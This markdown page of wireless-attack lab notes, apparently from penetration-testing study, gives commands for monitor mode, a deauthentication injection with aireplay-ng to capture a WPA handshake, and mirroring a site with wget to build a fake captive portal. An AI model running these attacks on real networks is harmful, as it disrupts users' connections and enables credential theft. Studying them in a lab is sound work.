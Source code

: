 # Captive Ports

## Commands

* Run [setup](../../setup.md) first

### Capture some data

```bash
# Start monitor mode
sudo airmon-ng start wlan0

# Start a screen session with a horizonal split screen

# Start monitor mode but with filters and output saved to PCAP.
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG --output-format pcap wlan0mon

# Do one deauth injection attack while still monitoring
sudo aireplay-ng -0 1 -a $BSSID -c $CLIENT wlan0mon

# Wait for the four-way handshake to appear in airodump-ng window.
# Stop airodump-ng when it appears
qq
```

### Build the Captive Portal

```bash

# Install the dependencies to build our captive port website
sudo apt-get install apache2 libapache2-mod-php

# Use the premade one
wget -r -l2 https://www.megacorpone.com
```


### Set up Network

```bash

sudo ip addr add 192.168.87.1/24 dev wlan0
sudo ip link set wlan0 up
```


## References

* [Wiki](https://en.wikipedia.org/wiki/Captive_portal)